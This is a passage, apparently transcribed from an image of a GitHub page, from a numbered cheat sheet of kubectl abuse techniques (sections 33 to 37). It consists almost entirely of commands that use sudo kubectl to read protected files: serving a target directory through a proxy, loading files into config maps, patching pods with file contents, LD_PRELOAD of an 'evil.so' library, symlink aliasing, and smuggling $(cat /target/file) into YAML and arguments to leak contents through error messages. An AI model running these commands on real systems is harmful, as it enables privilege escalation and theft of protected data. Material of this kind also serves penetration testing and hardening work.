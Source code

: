 ```bash
sudo kubectl proxy --www=/target/dir --api-prefix=/alt/api/
sudo kubectl proxy --port=10250 &
wget -qO- http://127.0.0.1:10250/pods
```

---

## 33. Log & Event Abuses

```bash
kubectl create cm test --from-file=/target/file
kubectl describe cm test | grep target
```

---

## 34. Build / Diff Weirdness

```bash
sudo kubectl diff -f /target/file
sudo kubectl patch pod test -p "$(cat /target/file)"
```

---

## 35. Aliasing & Binary Abuses

```bash
ln -s $(which kubectl) /tmp/kube
sudo /tmp/kube apply -f /target/file

LD_PRELOAD=/tmp/evil.so sudo kubectl version
```

---

## 36. Exotic Inputs

```bash
sudo kubectl apply -f /dev/stdin < /target/file
sudo kubectl create -f /dev/fd/3 3</target/file
```

---

## 37. Creative Error Side Channels

```bash
echo 'apiVersion: v1
kind: $(cat /target/file)' > evil.yaml
sudo kubectl apply -f evil.yaml

sudo kubectl explain $(cat /target/file)
```

---